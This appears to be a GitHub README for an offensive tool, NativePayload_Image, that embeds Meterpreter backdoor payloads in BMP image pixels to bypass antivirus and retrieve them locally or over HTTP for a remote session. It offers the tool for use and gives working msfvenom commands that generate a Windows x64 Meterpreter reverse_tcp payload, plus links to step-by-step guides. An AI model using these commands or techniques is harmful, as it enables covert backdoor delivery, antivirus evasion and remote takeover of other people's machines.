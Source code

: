 # NativePayload_Image
Transferring Backdoor Payloads with BMP Image Pixels also Bypassing AVS
with this tool you can Make and Modify Bitmap files for Injecting Meterpreter payload to file also you can use this tool like backdoor for Getting Meterpreter Session by Local Bitmap Files or With Downloading Bitmap Files by Url  (HTTP Traffic).

for more information and using tool "NativePayload_Image.exe" Step by Step Please visit one of these links :
         link: https://www.peerlyst.com/posts/transferring-backdoor-payloads-with-bmp-image-pixels-damon-mohammadbagher 
         , link: https://www.linkedin.com/pulse/transferring-backdoor-payloads-bmp-image-pixels-damon-mohammadbagher
   
   C# Code : NativePayload_Image.exe  ,  Published by Damon Mohammadbagher
   
        /// .Net Framework 2.0 , 3.5 and 4.0 only supported
        /// .Net Framework 4.5 and 4.6 Not Supported ;O
        
        /// Windows 2008 R2 tested with BMP Format only .
        /// Note : tested and worked by MS Paint for Viewing bmp files only.
        
        /// in kali linux you can use "hexeditor" command and in windows you can use "Hex editor NEO".
        /// for meterpreter payload
        /// msfvenom --platfoem windows --arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 -f c > payload.txt
        /// msfvenom --platfoem windows --arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 -f num > payload.txt 
        
        
        for more information and using tool "NativePayload_Image.exe" Step by Step Please visit one of these links :
        1. link: https://www.peerlyst.com/posts/transferring-backdoor-payloads-with-bmp-image-pixels-damon-mohammadbagher
        2. link: https://www.linkedin.com/pulse/transferring-backdoor-payloads-bmp-image-pixels-damon-mohammadbagher
        
       
        
